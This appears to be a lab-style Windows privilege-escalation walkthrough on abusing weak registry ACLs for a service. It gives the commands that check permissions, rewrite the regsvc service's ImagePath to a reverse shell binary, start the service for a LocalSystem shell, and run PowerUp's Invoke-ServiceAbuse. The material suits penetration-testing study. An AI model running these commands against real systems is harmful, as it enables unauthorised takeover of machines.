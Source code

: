 For each service, registry may be configured with ACLs. If this ACL is misconfigured it might be possible to modify a service’s configuration even if we are not allowed to do it directly.

[Good Article](https://medium.com/r3d-buck3t/abuse-service-registry-acls-windows-privesc-f88079140509)

a) We start by exploring results of winpeas and we got something interesting. We might be able to edit this registry “HKLM\system\currentcontrolset\services\regsvc”


b) Verifying the registry permissions:

i) Using Get-Acl cmdlet (Powershell)-

Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc |  Format-List *

“NT AUTHORITY\INTERACTIVE” has full control over this registry and if we list all the groups for our user, we find our current user is a part of this group.

whoami /groups

ii) Using accesschk.exe:

.\accesschk.exe /accepteula -uvqk HKLM\System\CurrentControlSet\Services\regsvc

c) Also we need to check weather we have permission to start and stop the service:

.\accesschk.exe /accepteula -ucqv user regsvc

d) Editing the registry:

i) First we need to determine what is available in registry to which we can change.

reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc

or we can use powershell also

Get-Item -path HKLM:\SYSTEM\CurrentControlSet\services\regsvc

We will modify the ImagePath to that of our reverse shell binary.

ii) Editing the ImagePath property:

A) using Powershell-

Set-Itemproperty -path 'HKLM:\SYSTEM\CurrentControlSet\services\regsvc' -Name 'ImagePath' -value 'C:\PrivEsc\reverse.exe'

B) Using reg command-

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

e) Starting the service to get reverse shell as LocalSystem-

net start regsvc

Using PoweUp.ps1-

Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName dcorp\student479 -Verbose
